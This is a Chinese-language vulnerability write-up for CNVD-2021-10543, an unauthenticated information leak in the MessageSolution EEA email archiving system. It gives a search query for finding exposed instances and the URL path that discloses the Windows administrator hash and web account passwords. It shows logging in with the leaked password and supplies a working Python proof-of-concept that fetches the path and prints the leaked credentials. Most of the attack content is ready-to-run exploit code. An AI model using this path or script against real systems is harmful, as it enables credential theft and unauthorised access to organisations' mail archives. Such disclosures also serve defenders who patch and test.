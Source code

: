# MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

# MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

```
MessageSolution 企业邮件归档管理系统EEA
```

## 网络测绘

```
title="MessageSolution Enterprise Email Archiving (EEA)"
```

## 漏洞复现

登录页面如下



![](/images/202202102006003.png)

访问如下Url



```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```



![](/images/202202102006561.png)



使用获得到的密码可以登录系统



![](/images/202202102006711.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](C:\Users\47236\Desktop\4.png)

## 


